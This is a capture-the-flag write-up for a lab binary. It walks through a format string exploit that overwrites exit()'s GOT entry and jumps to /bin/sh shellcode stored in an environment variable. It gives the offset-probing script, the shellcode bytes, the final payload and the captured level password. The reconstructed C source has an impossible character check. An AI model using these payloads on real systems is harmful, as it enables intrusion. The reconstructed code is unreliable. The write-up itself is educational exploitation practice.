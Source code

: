 ## level05 (format string vulnerability with GOT overwrite)
```clike!
int main()
{
    int count = 0;
    char inputbuf[?];
    
    fgets(inputbuf, 100, stdin);
    count = 0;
    while(strlen(inputbuf) > count)
    {
        if (inputbuf[count] <= 64 && inputbuf[count] > 90)
        {
            ++count;
            continue;
        }
        else
        {
            inputbuf[count] = inputbuf[count] ^ 32;
            ++count;
        }
    }
    printf(inputbuf);
    exit(0);
}
```

In the last two lines, we see a **printf call to user input**, which indicates a format string vulnerability. We also noticed that the program calls `exit()` and its complete and not return, which means we are enable to overwrite the EIP, and had to overwrite the GOT for `exit()` instead. 

We also noticed that the program decapitalizes any characters in the input buffer, so that is something to take note of. The first step would be to find the offset of the printf stack address to the contents of the first printf argument. I have made a script to go through the stack to display its contents

```
cat << EOF > /tmp/test.py
import os
import sys
for i in range(1, 42, 1) :
    os.system("echo '' > /tmp/output; echo 'iiii %{}\$p' | /home/users/level05/level05 >> /tmp/output".format(i))
    output = open('/tmp/output', 'r').read()
    sys.stdout.write("{} - ".format(i))
    sys.stdout.write(output[1:])
EOF

python /tmp/test.py
```

As we can see the contents are at **the 10th `%p`**. This is important because we will be putting our GOT address here to be read, and overwritten using `%n`. To locate the GOT address for `exit()`, we can check the relocation entries using `objdump -R ./level05` and we can see its `080497e0`. So our new input should be pointing to that address and printing it out for now. **We also should replace `%p` with `%hhn` so the system will write to that address** on how many bytes we have printed

```
python -c "print '\x08\x04\x97\xe0'[::-1] + 'B' * 12 + '%10\$hhn'" > /tmp/level05
./level05 < /tmp/level05
```

As we can see, we have successfully written over the GOT. So we just need to replace this with a pointer to the shellcode, which I will put in the environment variable.
![image](https://hackmd.io/_uploads/rJLq0Q2Ip.png)

The shellcode will be a simple `execve(/bin/sh)` I found [here](https://shell-storm.org/shellcode/). I will be exporting this in the environment variable and we will be getting the address via GDB. As we can see, our address is `0xffffd85e` but we have a NOP sled, so let make it safer by assuming its  `0xffffd87e`

```
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`
```
![image](https://hackmd.io/_uploads/ryPQ64nUT.png)

With this information, we can now construct our payload like so:
```
0x080497e0 - d87e (55414 bytes)
0x080497e2 - ffff (10113 bytes from last)
```

```
(python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55414x' + '%10\$hn' + '%10113x' + '%11\$hn'" ; cat)| ./level05
```

And we got our password `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`
![image](https://hackmd.io/_uploads/ByxB0VhI6.png)

